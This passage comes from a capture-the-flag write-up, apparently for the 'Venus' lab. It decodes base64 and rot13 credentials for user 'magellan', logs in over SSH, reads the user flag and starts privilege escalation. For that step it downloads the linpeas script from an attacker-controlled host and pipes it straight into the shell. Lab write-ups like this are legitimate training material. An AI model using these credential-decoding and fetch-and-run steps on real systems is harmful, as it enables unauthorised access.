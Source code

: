 Do the same for the `magellan` user 
```bash
└─$ echo -n 'magellan:thrfg' | base64
bWFnZWxsYW46dGhyZmc=

└─$ echo 'bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==' | base64 -d
magellan:irahfvnatrbybtl1989                                                                                                                                                                                      
└─$ echo 'irahfvnatrbybtl1989' | rot13
venusiangeology1989
```

## SSH (22)

### magellan

The credentials didn't work for Django admin page, but we are able to login into ssh!

> Creds: `magellan:venusiangeology1989
{: .prompt-tip }

```bash
[magellan@venus ~]$ ls -alh
total 32K
drwx------. 5 magellan magellan 228 May 21  2021 .
drwxr-xr-x. 4 root     root      35 May 20  2021 ..
lrwxrwxrwx. 1 magellan magellan   9 May 21  2021 .bash_history -> /dev/null
-rw-r--r--. 1 magellan magellan  18 Jan 26  2021 .bash_logout
-rw-r--r--. 1 magellan magellan 141 Jan 26  2021 .bash_profile
-rw-r--r--. 1 magellan magellan 492 Jan 26  2021 .bashrc
drwxrwxr-x. 3 magellan magellan  17 May 20  2021 .cache
-rw-------. 1 magellan magellan  36 May 21  2021 .lesshst
drwx------. 4 magellan magellan  28 May 20  2021 .local
-rw-------. 1 magellan magellan  42 May 20  2021 .python_history
-rw-------. 1 magellan magellan  45 May 21  2021 user_flag.txt
drwxrwxr-x. 4 magellan magellan 109 May 21  2021 venus_monitor_proj
-rw-rw-r--. 1 magellan magellan  38 May 21  2021 .virc
-rw-rw-r--. 1 magellan magellan 218 May 21  2021 .wget-hsts
```

#### User.txt

```bash
[magellan@venus ~]$ cat user_flag.txt
[user_flag_e799a60032068b27b8ff212b57c200b0]
```

### Privilege Escalation (root)

Get `linpeas` and run it. (`tee` to save the output if further required)
```bash
[magellan@venus ~]$ curl 10.0.2.15/lp.sh | sh | tee lp.log
...
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:9080            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      842/python3
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::5355                 :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
...
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
```